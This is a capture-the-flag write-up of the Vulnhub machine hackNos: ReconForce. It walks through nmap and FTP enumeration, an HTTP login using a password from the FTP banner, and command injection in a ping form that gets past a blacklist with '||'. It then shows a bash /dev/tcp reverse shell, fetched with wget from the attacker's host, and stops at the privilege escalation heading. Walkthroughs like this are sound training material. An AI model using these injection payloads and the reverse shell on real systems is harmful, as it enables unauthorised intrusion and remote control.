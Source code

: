 # Vulnhub | hackNos: ReconForce Writeup (In Detail)
## [+] Machine Details

| INFO | Description |
| --- | --- |
| [+] Machine Name -> | ``hackNos: ReconForce`` |
| [+] Release Date -> | ``11 Jan 2020`` |
| [+] Difficulty -> | ``Easy/Medium`` |
| [+] Download -> | [Download Link](https://www.vulnhub.com/entry/hacknos-reconforce,416/) |
| [+] Writeup By -> | ``@pwn4magic`` - `Discord : pwn4magic#8707` |
| [+] VM Maker -> | [@rahul_gehlaut](https://twitter.com/rahul_gehlaut) |
| [+] OS -> | ``GNU/Linux`` :penguin: |


## [+] Table of contents
* 0x00 Quick Summary
* 0x01 Enumeration
  * Finding Target's IP Address
  * nmap
  * FTP Enumeration / FTP Banner Grabbing
  * Web Enumeration
  * Theory (.htaccess/.htpasswd)
* 0x02 Exploitation
  * Login In / Command Injection
  * Shell as www-data
* 0x03 Privilege Escalation
  
# 0x00 Quick Summary
hackNos: ReconForce was a quite easy box, took me around 1day to root it because i was using the broken version. The mistake takes place at FTP Banner, it should be `Security@hackNos` & not `Secure@hackNos`. I wasted lot of time brute forcing the HTTP Authentication, when i got the patched version i was able to root it into 10 minutes. FTP Banner provide us the HTTP Authentication password, when we login in we can see a ping function, we need to bypass it & take command injection. Then we have to do 2 privilege escalations, very easy ones.

# 0x01 Enumeration
## Finding Target's IP Address
Let's find target's IP address, i always use `arp-scan`.
```
[root@pwn4magic]:~# arp-scan --localnet | grep "PCS Systemtechnik GmbH"
192.168.1.2	08:00:27:0c:93:5f	PCS Systemtechnik GmbH
```

## nmap
```
[root@pwn4magic]:~/Documents/vulnhub/hackNosReconForce# nmap -sC -sV -p- -oN nmap 192.168.1.2
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-18 16:18 EET
Nmap scan report for thepurge (192.168.1.2)
Host is up (0.00020s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.14
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6f:96:94:65:72:80:08:93:23:90:20:bc:76:df:b8:ec (RSA)
|   256 6f:bb:49:1a:a9:b6:e5:00:84:19:a0:e4:2b:c4:57:c4 (ECDSA)
|_  256 ce:3d:94:05:f4:a6:82:c4:7f:3f:ba:37:1d:f6:23:b0 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Recon_Web
MAC Address: 08:00:27:0C:93:5F (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see, 3 open ports (21, 22, 80). Let's start by enumerating FTP.

## FTP Enumeration / FTP Banner Grabbing
  
FTP Anonymous is allowed, let's try it out.
```
[root@pwn4magic]:~/Documents/vulnhub/hackNosReconForce# ftp 192.168.1.2
Connected to 192.168.1.2.
220 "Security@hackNos".
Name (192.168.1.2:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        117          4096 Jan 06 06:25 .
drwxr-xr-x    2 0        117          4096 Jan 06 06:25 ..
226 Directory send OK.
ftp> 
```

Nothing useful there. But we can see at FTP banner this `Security@hackNos`, might be useful later. We can also do banner grabbing using netcat!

```
[root@pwn4magic]:~/Documents/vulnhub/hackNosReconForce# nc -v 192.168.1.2 21
thepurge [192.168.1.2] 21 (ftp) open
220 "Security@hackNos".
```

## Web Enumeration

Site doesnt have something really useful, i even tried stego on the photos. But if we check the source code we can see an interesting path. `/5ecure`

```html
<div class="button">
<a href="5ecure/" class="btn">TroubleShoot</a>>
</div>
```

![httpauth](https://i.imgur.com/KvMcjF8.png)

HTTP Authentication, let's see some background theory.

## Theory (.htaccess/.htpasswd)

We can password protect our webpages, using the `.htaccess` & `.htpasswd`.
Let's reverse what `hackNos: ReconForce` maker did.

He created a `.htaccess` file in the folder he wants to protect -> `/5ecure`
```
AuthType Basic
AuthName "Recon Security"
AuthUserFile /some/dummy/path/.htpasswd
Require valid-user
```

The `.htpasswd` file contain our password salt, for example `admin:$apr1$rimxjkte$UwZbBDO3ybQNtT/7BJ/Kf0`. In our case because is an easy/medium machine, username will be admin.

# 0x02 Exploitation
## Login In / Command Injection

FTP banner provide us a really interesting string `Security@hackNos`, let's try to use it as password on HTTP Authentication.

![image](https://i.imgur.com/zIeux5N.png)

We're in & we can see a ping function, we all know in CTF world ping -> CI haha. I tried some basics command injections.

```
127.0.0.1; whoami
127.0.0.1& whoami
127.0.0.1&& whoami
```

Nothing really work, there is a filter in the script i guess. A blacklist that blocks `&&` - `&` - `;`, we can bypass that by using `||`.

```
127.0.0.1|| whoami
```

We have command injection! `www-data`

## Shell as www-data

I wasn't able to spawn a reverse shell there, tried lot of reverse shells but nothing so i did a trick.

```
[root@pwn4magic]:~/Documents/vulnhub/hackNosReconForce# touch revshell.sh
[root@pwn4magic]:~/Documents/vulnhub/hackNosReconForce# echo "bash -i >& /dev/tcp/192.168.1.14/5555 0>&1" > revshell.sh 
[root@pwn4magic]:~/Documents/vulnhub/hackNosReconForce# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

Now we'll wget it to target, execute it.

```
127.0.0.1||  wget 192.168.1.14/revshell.sh
127.0.0.1||  chmod +x revshell.sh
127.0.0.1||  bash revshell.sh
```

We have shell.

```
[root@pwn4magic]:~# nc -lvp 5555
listening on [any] 5555 ...
connect to [192.168.1.14] from thepurge [192.168.1.2] 32930
bash: cannot set terminal process group (1015): Inappropriate ioctl for device
bash: no job control in this shell
www-data@hacknos:/var/www/recon/5ecure$ whoami
whoami
www-data
www-data@hacknos:/var/www/recon/5ecure$ 

```

# 0x03 Privilege Escalation
